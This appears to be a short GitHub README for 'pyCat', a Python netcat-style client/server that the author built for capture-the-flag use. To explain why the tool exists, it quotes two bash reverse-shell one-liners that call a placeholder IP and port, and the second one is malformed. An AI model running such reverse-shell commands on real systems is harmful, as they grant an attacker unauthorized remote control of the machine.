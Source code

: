 # pyCat
Simple python-based client/server for interacting with remote systems.

Why pyCat?
----------
Many times in my CTF adventures, I would find Netcat installed, but the '-e' option wouldn't be available. 

Yes, I know there are other ways to get reverse-shell when you have command-injection on a system, but I really like the ease of Netcat. 

Plus sometimes the shells I get using... 

  `bash -i >& /dev/tcp/IP/PORT 0>&1`
  
  or 
  
  `/bin/bash -c '/bin/bash>/dev/null/IP/PORT 2>&1 0>&1'`
  
...can be inconsistent in the way they act from time to time.



So, I found myself wanting to have a stand-alone executable of Netcat for Linux systems, but didn't find one after searching for a **SOLID** 10 minutes. It also had the added benefit of being a good way to learn more Python.


Thanks to **Justin** for helping me debug the socket connection.
